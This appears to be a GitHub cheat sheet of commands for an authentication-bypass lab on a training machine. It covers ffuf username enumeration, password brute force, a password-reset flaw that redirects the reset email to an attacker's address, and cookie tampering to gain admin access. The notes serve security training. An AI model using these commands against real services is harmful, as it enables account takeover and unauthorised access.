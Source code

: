 # Authentication-Bypass 
  ![loginReq](https://user-images.githubusercontent.com/94301241/175791940-dea54eb2-cfb2-4cd5-885d-6ac5f2dc6190.png)

# 🤢Username Enumeration
    ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type:       application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"
  
# ▶️ Brute Force
      Example1: ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2       -X     POST -d       "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc        200
      Example2: ffuf -w /usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt -X POST -d                      "username=steve&     password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.170.164/customers/login -fc 200

# ▶️Logic Flaw 
    i. curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d                 'username=robert'
    ii. curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d                 'username=robert&email=attacker@hacker.com'
    iii. curl 'http://MACHINE_IP/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
  
 # 🍪Cookie Tampering 
    i.  curl http://MACHINE_IP/cookie-test
    ii. curl -H "Cookie: logged_in=true; admin=false" http://MACHINE_IP/cookie-test
    iii. curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test
